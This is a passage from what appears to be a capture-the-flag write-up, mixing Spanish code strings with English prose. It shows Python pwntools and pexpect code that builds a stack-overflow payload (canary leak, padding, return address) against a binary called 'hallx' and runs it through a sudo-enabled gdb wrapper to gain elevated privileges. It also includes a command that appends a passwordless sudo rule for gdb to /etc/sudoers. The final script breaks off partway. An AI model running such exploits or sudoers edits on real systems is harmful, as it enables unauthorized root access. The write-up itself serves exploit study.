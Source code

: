 ```python
#       print("No hay suficientes direcciones de memoria en la salida")

    # construction of the payload
    buffer_size = 72 # offset before overwriting the canary
    buffer_fil = b'S' *buffer_size
    padding = b'A' *8 # padding to align the stack
    #rip = b'P' *8

    payload = flat(
    buffer_fil,
    output_canary_le,
    padding,
    address_factor1_le
    )
    # sending the payload
    gdb_process.expect("Introduce tu nombre: ")
    gdb_process.sendline(payload)
    #gdb_process.expect("(gdb)")
    gdb_process.sendline("continue")
    gdb_process.interact()
    gdb_process.send(b"quit")
    gdb_process.close()

if __name__ == '__main__':
    atack()
```

Now I configure my environment to be able to run gdb as root without asking me for a password.

```bash
echo "darks ALL=(root) NOPASSWD: /usr/bin/gdb" >> /etc/sudoers
```

Note: This configuration is on my local machine where I am developing and testing the exploit, this configuration must then be reverted.

Once the environment is configured, I test the exploit.

https://github.com/user-attachments/assets/7525f3f8-3d16-4af3-acb7-85b4952be9fd

The exploit worked correctly on my machine, now it must be modified to run in Pedro's environment using the /usr/local/bin/secure_gdb script.

The final exploit would look like this:

exploit
```python
import pexpect
import re
import struct
from pwn import *

def atack():

    binary = ELF("/home/pedro/hallx")
    binary_path = "/home/pedro/hallx"
    secure_gdb = "/usr/local/bin/secure_gdb"
    gdb_process = pexpect.spawn(f"sudo {secure_gdb} {binary_path}", timeout=10, maxread=10000, searchwindowsize=100)
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set disassembly-flavor intel")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set pagination off")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set style enabled off")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("break main")
```